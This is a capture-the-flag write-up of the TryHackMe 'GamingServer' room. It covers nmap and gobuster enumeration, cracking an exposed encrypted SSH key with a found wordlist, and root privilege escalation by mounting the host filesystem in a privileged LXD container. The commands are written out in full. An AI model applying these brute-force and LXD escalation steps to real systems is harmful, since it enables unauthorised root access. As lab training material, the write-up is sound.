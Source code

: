# THM - GamingServer Writeup

> Mario Raciti | Sep 1, 2020
>
> TryHackMe CTF Room: https://tryhackme.com/room/gamingserver

### An Easy Boot2Root box for beginners

The aim of this room is to gain access to a gaming server built by amateurs with no experience of web development and to take advantage of the deployment system.

There is only one task, indicating that we have to get two flags: `user_flag` and `root_flag`. So without any further ado, let's begin our game!

## Nmap Scan

Let's start this room by running a classic nmap scan:

```sh
$ nmap -sC -sV $IP -oN logs/nmap

Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-31 17:09 CEST
Stats: 0:00:09 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 10.10.26.252
Host is up (0.078s latency).
Not shown: 921 closed ports, 77 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.45 seconds
```

Well, it seems we have only two open ports: `22 (SSH)` and `80 (HTTP)`.

## Web Directories Enumeration

Let's start by visiting the homepage of the web server listening on port 80. By inspecting the source page, we can notice that it contains the following comment at the footer:

```html
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->
```

Thus, we can guess that a candidate username for an SSH login could be `john`.

Now let's give a look if the web server provides a `robots.txt` file:

```
GET http://$IP/robots.txt

user-agent: *
Allow: /
/uploads/
```

We can see the `/uploads` endpoint, so let's investigate about:

```
GET http://$IP/uploads/

dict.lst	2020-02-05 14:10	2.0K	 
manifesto.txt	2020-02-05 13:05	3.0K	 
meme.jpg	2020-02-05 13:32	15K	 
```

The `dict.lst` file seems to contain a password list. Maybe this list could be used to bruteforce the SSH login.

### Gobuster

Before going ahed, let's enumerate directories using Gobuster with the [common.txt](https://github.com/digination/dirbuster-ng/blob/master/wordlists/common.txt) list:

```sh
$ gobuster dir --url $IP -w common.txt -o logs/gobuster.log

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.26.252
[+] Threads:        10
[+] Wordlist:       common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/31 17:44:37 Starting gobuster
===============================================================
/secret (Status: 301)
/uploads (Status: 301)
===============================================================
2020/08/31 17:45:03 Finished
===============================================================
```

As we can see, the tool found only two directories: `/secret` and `/uploads`. We already checked the latter, so we can concentrate our analysis on the `/secret` endpoint:

```
GET http://$IP/secret/

secretKey	2020-02-05 13:41	1.7K
```

Bingo! We got a private RSA SSH key:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

*******************************************
***********CENSORED_EH_EH******************
*******************************************
-----END RSA PRIVATE KEY-----
```

## SSH Dictionary Attack

The SSH RSA private key is encrypted, so we have to crack the password. To this purpose, we can surely use the `dict.lst` list that we found previously. Note that this operation can be performed by using our old friend JohnTheRipper, but in this case I preferred to use the SSHAttacker Python script - source is available [here](https://github.com/forScie/SSHAttacker) - to think *out of the box*. Before starting the cracking process, I just added the `key_name='rsa_id'` parameter to the connect method in the script, in order to adapt it to our use case:

```python
line 36	   ssh.connect(target, port=int(float(port)), username=user, password=password, key_filename='./rsa_id')
```

At this point, we can simply run SSHAttacker with `dict.lst` as password list:

```
...
[-] Attempt n-1: ***censored*** ... Unsuccessful
[-] Attempt n: ***password_eheh*** ... Bingo!

[!] SUCCESS! Creds: john@10.10.165.124:22 Password: ***password_eheh***
```

We got the password and, after logging in via SSH, we can finally retrieve the user flag:

```sh
john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt
***user_flag***
```

## Privilege Escalation

Now we have to elevate our privileges in order to get the root flag. We can just scp and run the [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) script in the VM to look for something interesting.
I firstly noticed that there is a weird link in a `/usr/bin/at` binary. But it was a joke just as `/usr/bin/pkexec`, another potential way to elevate our privileges. Both refers to CVEs which can be exploited by using a C executable, FYI.

At this point, I was looking for the right way to perform a privilege escalation. We can notice that the user john is in the lxd group:

```sh
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

We can exploit this fact because LXD containers run with root privileges in most cases. Therefore, the exploit consts of mounting the file system in a container, so that we can have access to it. For more information, you can read [this article](https://www.hackingarticles.in/lxd-privilege-escalation/). In our case, we can use the alpine image:

```sh
attacker@machine:~$ git clone https://github.com/saghul/lxd-alpine-builder.git
attacker@machine:~$ cd lxd-alpine-builder/
attacker@machine:~$ sudo ./build-alpine -a i686
```

Now we have to move the `alpine-v3.12-i686-20200901_1306.tar.gz` archive to the victim machine:

```sh
attacker@machine:~$ scp -i rsa_id alpine-v3.12-i686-20200901_1306.tar.gz john@10.10.170.65:/home/john/
```

Eventually, all we have to do is to just add the image as follows:

```sh
john@exploitable:~$ lxc image import alpine-v3.12-i686-20200901_1306.tar.gz --alias exploit_image
Image imported with fingerprint: dc53ca24314f0dee7e940d9e9519215a725b761e8e6ad98
john@exploitable:~$ lxc image list
+---------------+--------------+--------+-------------------------------+------+--------+-----------------------------+
|     ALIAS     | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCH |  SIZE  |         UPLOAD DATE         |
+---------------+--------------+--------+-------------------------------+------+--------+-----------------------------+
| exploit_image | dc53ca24314f | no     | alpine v3.12 (20200901_13:06) | i686 | 3.07MB | Sep 1, 2020 at 1:17pm (UTC) |
+---------------+--------------+--------+-------------------------------+------+--------+-----------------------------+
```

We can now run the container from the `exploit_image` image:

```sh
john@exploitable:~$ lxc init exploit_image ignite -c security.privileged=true
Creating ignite
john@exploitable:~$ lxc config device add ignite my_device disk source=/ path=/mnt/root recursive=true
Device my_device added to ignite
john@exploitable:~$ lxc start ignite
john@exploitable:~$ lxc exec ignite /bin/sh
~ # whoami
root
```

And voilà!

The root flag can be retrieved by going to the mounted path `/mnt/root/root`:

```sh
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt 
***root_flag***
```

---

### That's all folks!
